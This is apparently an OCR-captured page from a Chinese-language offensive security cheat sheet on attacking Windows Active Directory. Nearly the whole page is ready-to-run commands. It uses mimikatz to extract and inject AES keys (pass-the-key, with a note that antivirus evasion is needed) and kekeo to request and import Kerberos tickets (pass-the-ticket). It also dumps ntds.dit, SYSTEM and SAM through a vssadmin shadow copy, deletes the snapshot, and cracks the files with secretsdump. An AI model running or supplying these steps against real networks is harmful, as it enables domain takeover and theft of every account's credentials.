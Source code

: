 ### pass the key

需要免杀：

>   mimikatz "privilege::debug" "sekurlsa::ekeys"  获取用户的aes key
>
>   mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:asdq379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c"  注入aes key
>
>   dir \\\计算机名

### pass the ticket

不需要管理员权限

>   kekeo "tgt::ask /user:abc /domain:test.local /ntlm:hash"

导入ticket：

>   kekeo "kerberos::ptt TGT_abc@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"

程序地址：

>   https://github.com/gentilkiwi/kekeo

### ntds.dit

vssadmin 方法 >= win 2008

查询当前系统的快照

>   vssadmin list shadows

创建快照

>   vssadmin create shadow /for=c:
>
>   获得 Shadow Copy Volume Name 为 ``\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47``

复制 ntds.dit, copy 第一个参数为创建快照时位置:

>   copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\NTDS\ntds.dit c:\ntds.dit   

复制 system 和 sam

>   copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\system c:\
>
>   copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\sam c:\

删除快照

>   vssadmin delete shadows /for=c: /quiet

获取将以上 system，sam, ntds.dit 放到 /root/ntds_cracking/ 下，运行

>   python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/SYSTEM LOCAL

py 地址:
